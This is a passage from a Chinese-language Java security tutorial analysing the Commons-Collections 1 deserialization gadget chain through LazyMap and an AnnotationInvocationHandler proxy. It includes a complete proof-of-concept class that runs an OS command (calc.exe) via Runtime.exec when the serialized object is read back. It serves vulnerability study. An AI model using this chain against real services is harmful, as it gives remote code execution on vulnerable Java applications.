然后，对 AnnotationInvocationHandler 对象进行代理

```java
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
declaredConstructor.setAccessible(true);
InvocationHandler handler = (InvocationHandler) declaredConstructor.newInstance(Retention.class, tmap);
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
```

代理后的对象叫做proxyMap，但我们不能直接对其进行序列化，因为我们入口点是AnnotationInvocationHandler的readObject ，所以我们还需要再用AnnotationInvocationHandler对这个proxyMap进行包裹。

```java
handler = (InvocationHandler) construct.newInstance(Retention.class, proxyMap);
```

完整的poc如下

```java
package cc1;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;


public class CC1_LazyMapEXP implements Serializable {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                //传入Runtime类
                new ConstantTransformer(Runtime.class),
                //反射调用getMethod方法，然后getMethod方法再反射调用getRuntime方法，返回Runtime.getRuntime()方法
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                //反射调用invoke方法，然后反射执行Runtime.getRuntime()方法，返回Runtime实例化对象
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                //反射调用exec方法
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{"calc.exe"})
        };
        //把transformers的4个Transformer执行
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map map = new HashMap();
        map.put("value", "Roderick");
        Map tmap = LazyMap.decorate(map, transformerChain);


        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        declaredConstructor.setAccessible(true);

        InvocationHandler handler = (InvocationHandler) declaredConstructor.newInstance(Retention.class, tmap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
        handler = (InvocationHandler) declaredConstructor.newInstance(Retention.class, proxyMap);


/*        //序列化写文件
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("uf9n1x.bin"));
        oos.writeObject(handler);*/
        //反序列化触发payload
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("uf9n1x.bin"));
        ois.readObject();
    }
}
```



### 小结

小结部分主要来整理一下链子和我们的攻击思路。

```java
调用链 
    InvokeTransformer#transform
        LazyMap#get
            AnnotationInvocationHandler#readObject
            

辅助链
ChainedTransformer
ConstantTransformer
HashMap
Map(Proxy)#entrySet
```





## Refer

[JAVA反序列化 - Commons-Collections组件 - 先知社区](https://xz.aliyun.com/t/7031#toc-5)
[Java反序列化-CommonsCollections1利用链分析](https://www.yuque.com/tianxiadamutou/zcfd4v/gglxex?view=doc_embed)
[Commons Collections 1](https://www.yuque.com/sanqiushu-dsz56/efe3vx/eq8qgg?view=doc_embed)
[Java安全之CC1链分析](https://www.yuque.com/ni4n/ev66uk/dup89s?view=doc_embed&inner=TtG03)
[Java安全之Commons Collections1分析前置知识 - nice_0e3 - 博客园](https://www.cnblogs.com/nice0e3/p/13758664.html#0x00-%E5%89%8D%E8%A8%80)
[Java反序列化-CommonCollections分析](https://mp.weixin.qq.com/s?__biz=Mzg3OTU3MzI4Mg==&mid=2247483769&idx=1&sn=48eba9031c5fcc2f10d6f830fdd28eeb&chksm=cf032134f874a822ac197cbe3d91d745caa1f6e0cc7d74d1c188147468f6faf00e5a89f297a0&scene=0&xtrack=1#rd)
[Java反序列化漏洞分析](https://mp.weixin.qq.com/s/lr9Hxx74PY-O1fwBjNNwSQ)https://mp.weixin.qq.com/s/lr9Hxx74PY-O1fwBjNNwSQ)
